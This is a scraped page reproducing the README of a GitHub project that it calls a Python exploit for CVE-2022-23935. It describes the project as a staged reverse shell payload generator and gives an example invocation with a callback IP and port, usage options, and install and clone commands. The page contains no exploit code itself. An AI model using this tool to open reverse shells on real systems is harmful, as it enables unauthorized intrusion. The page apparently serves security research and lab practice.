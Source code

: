 # CVE-2022-23935

🐍 Python Exploit for CVE-2022-23935

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/BKreisel](https://github.com/BKreisel) |
| Url      | [https://github.com/BKreisel/CVE-2022-23935](https://github.com/BKreisel/CVE-2022-23935)                                               |
| Stars    | 12                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-23935* exploit* python

</details>

## Readme

# CVE-2022-23935
🐍 Python Exploit for CVE-2022-23935

Staged Reverse Shell Payload Generator for CVE-2022-23935

## Example
```
cve-2022-23935 10.10.16.3 44444
```
## Usage
```bash
usage: cve-2022-23935 [-h] [-l SERVER_PORT] [-s SHELL] ip port

positional arguments:
  ip                    IP Address/Host for Callback
  port                  Port Number for Callback

options:
  -h, --help            show this help message and exit
  -l SERVER_PORT, --listen SERVER_PORT
                        Port Number for Server Listen
  -s SHELL, --shell SHELL
                        Remote Shell

```

## Installation
```bash
python3 -m pip install cve-2022-23935-1.0.0-py3-none-any.whl
```
[Download Latest Release](https://github.com/BKreisel/CVE-2022-23935/releases/download/1.0.0/cve_2022_23935-1.0.0-py3-none-any.whl)

## Demo
[![demo](https://asciinema.org/a/558936.svg)](https://asciinema.org/a/558936?autoplay=1)



## Get the content

```
git clone https://github.com/BKreisel/CVE-2022-23935
cd CVE-2022-23935
```

{% embed url="https://github.com/BKreisel/CVE-2022-23935" %}

<figure><img src="https://avatars.githubusercontent.com/u/1513073?v=4" alt=""><figcaption><p>BKreisel</p></figcaption></figure>
